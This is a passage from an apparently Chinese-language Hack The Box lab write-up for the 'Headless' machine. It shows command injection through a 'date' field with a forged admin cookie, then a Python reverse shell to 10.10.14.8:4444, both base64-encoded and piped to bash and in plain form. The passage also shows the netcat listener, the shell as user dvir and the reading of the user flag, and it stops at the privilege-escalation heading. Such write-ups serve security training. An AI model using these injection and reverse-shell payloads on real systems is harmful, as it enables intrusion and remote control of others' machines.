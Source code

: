 ### 反弹shell

将payload改为`;echo cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjEwLjEwLjE0LjgiLDQ0NDQpKTtvcy5kdXAyKHMuZmlsZW5vKCksMCk7IG9zLmR1cDIocy5maWxlbm8oKSwxKTtvcy5kdXAyKHMuZmlsZW5vKCksMik7aW1wb3J0IHB0eTsgcHR5LnNwYXduKCJiYXNoIikn |base64 -d |bash`，其中base64部分是`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.8",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'`的编码。  
*后来测试不用base64形式也可以。*

**简单exp：**
```bash
┌──(kali㉿kalik)-[~/Lab/HTB/Headless]
└─$ curl -XPOST http://10.10.11.8:5000/dashboard -H 'Cookie: is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0' -d @payload.txt 
                                                                                    
┌──(kali㉿kalik)-[~/Lab/HTB/Headless]
└─$ cat payload.txt 
date=2023-09-15;python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.8",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
```

发送后成功获取dvir用户的反弹shell：
```bash
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.11.8] 36340
bash-5.2$ id
id
uid=1000(dvir) gid=1000(dvir) groups=1000(dvir),100(users)
```


## flag: user

```bash
bash-5.2$ pwd
pwd
/home/dvir/app
bash-5.2$ cd ..
cd ..
bash-5.2$ ls
ls
app  geckodriver.log  initdb.sh  user.txt
bash-5.2$ cat user.txt  
cat user.txt
5f0 (...) 9b5
```


## Privilege Escalation
